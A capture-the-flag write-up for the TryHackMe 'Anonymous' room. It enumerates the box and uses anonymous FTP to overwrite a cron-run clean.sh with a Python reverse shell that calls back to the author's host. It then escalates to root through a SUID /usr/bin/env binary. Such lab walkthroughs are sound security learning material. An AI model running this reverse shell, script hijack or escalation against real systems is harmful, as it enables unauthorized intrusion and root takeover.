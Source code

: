 # TryHackMe-AnonymousCTF-Writeup

Writeup for Anonymous room, ctf avaiable at https://tryhackme.com/room/anonymous (visit try hack me https://tryhackme.com/)

### General info

Some alias:

MACHINE_IP = victim's ip
MY_IP = my ip address on Try Hack Me network

I'm using a kali virtual machine and connecting via openVPN

## First task

Since I'm running nmap (in order to enumerate the machine) as root, the scan would be a syn scan by default: 

`nmap -A $MACHINE_IP`

Just count the open ports.

## Second task/Third task

-A flag being used, the command for the first question also gives the answers for the second and the third ones.

## Fourth task

We can use enum4linux to answer this:

`enum4linux MACHINE_IP`

it gives us the answer

## Fifth task

I decided to try anonymous login on the ftp and smb services to see if I could find interesting files

for smb:

`smbclient //MACHINE_IP/<name of the share from the previous task>`

Just hit enter when it asks for the password.
I was able to download two pictures, and used both exiftool and steghide to retrieve more information.
I also tried stegseek on both images but I was able to retrieve no passphrase so ... nothing with the pics!

for ftp:

`ftp $MACHINE_IP` 

Entered username "anonymous" and no password.

There was one directory called scripts containing some files: clean.sh , removed_files.log, to_do.txt

I used 'get <filename' ftp's command to get them on my machine: 
to_do.txt -> was a note from the admin which states that anonymous login is not secure ... you don't say!
clean.sh -> It's a cleanup scripts that is going to write something in removed_files.log when it's executed
removed_files.log -> contains the log from the previous script.

Monitoring the content of removed_files.log I realized that the script was running about every minute, so I used it to gain a reverse python shell:

>> !#/bin/bash
>> export RHOST="MY_IP";export RPORT=4445;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

(The previous reverse shell was taken from the git project: https://github.com/swisskyrepo/PayloadsAllTheThings)

I uploaded it with ftp overriding the old clean.sh, started a netcat listener (`nc -lvnp 4445`) and waited few seconds.

I receveid a reverse shell which I stabilized by background the process (ctrl + z) and running `stty raw -echo; fg`

I ran `id` and `whoami` to acknowledge I was logged as 'namelessone' in whose home directory I found the file user.txt containing the flag for this task

## Sixth task

As I usually do, the first thing to find privilage escaltion vectors was 
`find / -perm /6000 2>/dev/null`
which reveals you all the files with the SUID set so you can see if there is something unusual. In this case I found the bin "/usr/bin/env" which I searched for on GTFOBins, I found the exploitaion which requires you to change directory in /usr/bin and run
`./env /bin/sh -p`
This gave me a root reverse shell I could use to retrieve the root flag located in /root

